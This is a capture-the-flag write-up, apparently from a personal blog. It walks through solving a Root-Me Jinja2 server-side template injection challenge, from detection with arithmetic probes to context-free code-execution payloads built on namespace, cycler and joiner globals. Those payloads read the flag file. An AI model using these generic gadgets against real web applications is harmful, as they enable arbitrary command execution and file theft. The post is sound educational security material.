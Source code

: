 +++ 
title = "From Detection to Flag: A Deep Dive into Jinja2 SSTI on Root-Me"
description = "A step-by-step walkthrough of solving a Python SSTI challenge on Root-Me, from initial detection to crafting a context-free Jinja2 payload for code execution."
date = "2025-09-11"
draft = false
tags = ['ssti', 'ctf', 'python', 'jinja2', 'root-me', 'walkthrough']
+++

I recently tackled a fun Server-side Template Injection (SSTI) challenge on Root-Me and wanted to document my process. This post follows my journey from initial detection to crafting a reliable, context-free payload to gain code execution.

## The Challenge: Python SSTI Introduction

The goal was to solve the "Python - Server-side Template Injection Introduction" challenge on [Root-me.org](https://www.root-me.org/en/Challenges/Web-Server/Python-Server-side-Template-Injection-Introduction?lang=en).

### << SETUP >>

I started by loading the challenge environment and intercepting the requests using Caido. The application allows you to preview content submitted through a form.

### << DETECT >>

The core of the application is a POST request to `/preview` with `title` and `content` parameters.

```http
POST /preview HTTP/1.1
Host: challenge01.root-me.org:59074
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

title=hi&content=hi&button=yes
```

To test for SSTI, I sent a simple mathematical expression, `{{7*7}}`, in both the `title` and `content` fields. The server's response was revealing:

```json
{
    "content": "49",
    "title": "{{7*7}}"
}
```

The `content` field was processed, while the `title` field was not. This confirmed an SSTI vulnerability in the `content` parameter. To be certain about the template engine, I tried two different payloads:

1.  `{{3 * 3}}` resulted in `9`.
2.  `{{'3' * 3}}` resulted in `333`.

This behavior is characteristic of Jinja2, confirming my suspicion.

### << EXPLORE >>

With the vulnerability confirmed, the next step was to find a way to execute shell commands. My goal was to access the `os` module in Python.

#### The Problem with Context-Dependent Payloads

In previous challenges, like one from picoCTF, I had used "egg hunter" payloads that depend on the application's context. For example:

```python
{{ ''.__class__.__base__.__subclasses__()[356]('ls -la', shell=True, stdout=-1).communicate()[0].decode() }}
```

The problem with this method is that the index for `popen` (`[356]`) is not consistent across different environments. It's a brittle approach. I wanted to find a more reliable, context-independent payload.

#### The Quest for a Context-Free Payload

I drew inspiration from the GreHack 2021 talk by @podalirius_, "[Optimizing Server Side Template Injections payloads for jinja2](https://www.youtube.com/watch?v=ahBxZkOTdg0)", which discusses creating context-free payloads.

The ideal payload should be:
1.  **Context-free:** It shouldn't rely on any data passed into the `.render()` method.
2.  **Short:** Shorter is always better.

The key is the `self` object, which is a reference to the template itself and is accessible even with an empty `.render()` call.

```python
>>> jinja2.Template("""I am {{ self }}""").render()
'I am <TemplateReference None>'
```

From this `self` object, we should be able to find a path to the `os` module.

#### Finding the Path with BFS

Python's objects and attributes can be thought of as a graph. To find the shortest path from our starting object (`jinja2`) to our target (`os`), we can use a Breadth-First Search (BFS). This helps avoid long exploration traps and cycles.

During this exploration, I got a bit confused about the distinction between objects, attributes, and modules in Python. They all felt very similar. I got a great explanation:

> **You're right to feel they're similar—in Python, almost everything, including modules and functions, is fundamentally an object. The difference lies in their role and relationship to each other.**
> 
> **Object (obj):** The most basic building block. An instance of a class (e.g., an integer, a list, a function, a module).
> 
> **Attribute (attr):** A name that belongs to an object, accessed with the dot notation (`parent_object.attribute`). It can be a variable or a method.
> 
> **Module:** A specific type of object whose main job is to organize Python code, acting as a namespace for its attributes.

With that clarified, I wrote a small BFS script (`audit.py`) to search for paths from the `jinja2` object to the `os` module. It found several promising paths:

```bash
$ ./audit.py jinja2
Searching for 'os' from 'jinja2' (max depth: 5)...
jinja2.bccache.fnmatch.os
jinja2.bccache.os
jinja2.bccache.tempfile._os
jinja2.environment.os
jinja2.loaders.os
jinja2.utils.os
```

This confirmed that a path exists. Now, how to get there from `self`?

#### From `self` to `os`

First, I inspected the `self` object using `dir()`:

```python
>>> jinja2.Template("""{{ f(self) }}""").render(f=dir)
"['__class__', '__delattr__', ..., '_TemplateReference__context']"
```

Most attributes were internal dunder methods, but `_TemplateReference__context` looked interesting.

```python
>>> jinja2.Template("""{{ self._TemplateReference__context }}""").render()
"<Context {'range': ..., 'cycler': <class 'jinja2.utils.Cycler'>, 'joiner': <class 'jinja2.utils.Joiner'>, 'namespace': <class 'jinja2.utils.Namespace'>} of None>"
```

This context object gives us access to several Jinja2 utility classes like `cycler`, `joiner`, and `namespace`. My BFS search showed that `jinja2.utils.os` was a valid path. Since `namespace` is in `jinja2.utils`, I could traverse from there to the `os` module using Python's object introspection capabilities (`__init__.__globals__`).

This gives us a reliable path to `os`:

```python
{{ self._TemplateReference__context.namespace.__init__.__globals__.os }}
```

Even better, since `namespace`, `cycler`, and `joiner` are available in the global context of the template, we can access them directly without referencing `self`. This leads to a much cleaner and shorter payload.

#### The Final Gadgets

This discovery yielded three reliable, context-free gadgets for Jinja2 SSTI:

```python
{{ namespace.__init__.__globals__.os.popen("id").read() }}
{{ cycler.__init__.__globals__.os.popen("id").read() }}
{{ joiner.__init__.__globals__.os.popen("id").read() }}
```

### << EXPLOIT >>

Now it was time to use these gadgets on the challenge server. I sent the payload in the `content` parameter:

```
content={{ namespace.__init__.__globals__.os.popen("ls -la").read() }}
```

The server responded with a directory listing, and I spotted a `.passwd` file.

#### A Failed Experiment: `popen` vs. `Popen`

To get a nicely formatted output, I first tried to use the `communicate()` method, which I had used in the past:

```python
{{ namespace.__init__.__globals__.os.popen('id', shell=True, stdout=-1).communicate()[0].decode() }}
```

This resulted in an error: `TypeError: popen() got an unexpected keyword argument 'shell'`.

This was a key learning moment. I realized I was confusing `os.popen()` with the more powerful `subprocess.Popen`. The `os.popen` function is simpler and doesn't accept those arguments. The payload I used in the picoCTF challenge was accessing `subprocess.Popen`, not `os.popen`.

#### Getting the Flag

To solve the formatting issue and read the file, I switched to `readlines()`, which returns the output as a list of strings, preserving newlines.

**Final Payload:**

```
content={{ namespace.__init__.__globals__.os.popen('cat .passwd').readlines() }}
```

**Response:**

```json
{
    "content": "['Python_SST1_1s_co0l_4nd_mY_p4yl04ds_4r3_1ns4n3!!!\n']",
    "title": "hi"
}
```

Success! I found the flag.

## Final Thoughts

This challenge was a great exercise in moving beyond simple, context-dependent SSTI payloads. The journey was just as important as the result. By hitting a wall with `os.popen`, taking the time to understand the object graph with BFS, and clarifying fundamental Python concepts, I was able to build a short, reliable, and context-free gadget for code execution. It highlights the importance of deep-diving into the framework you're targeting and not being afraid to go back to the basics.
